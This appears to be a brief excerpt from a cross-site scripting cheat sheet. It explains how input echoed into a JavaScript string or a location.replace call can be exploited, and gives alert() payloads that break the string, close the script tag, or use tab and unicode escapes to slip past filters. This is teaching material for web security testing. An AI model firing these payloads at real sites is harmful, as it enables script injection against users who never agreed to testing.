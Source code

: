 Code example:

```html
var test = '$input';
```

Try to **break the context**, or **close the script tag**. Example:

```html
';alert(origin);//
</script/x><img/src/onerror=alert()>
```

Sometimes you do not need to break something, as an instance:

```
location.replace($input)
```

Which can be exploited **without break.** Consider that you cannot use **HTML encoding**, but **tab character**

```
javascript:alert(1)
javascr**%09**ipt:**\u0061**lert(1)
javascr**\t**ipt:\**u0061**lert(1)
```

Test your payload on : [click](http://jsfiddle.net)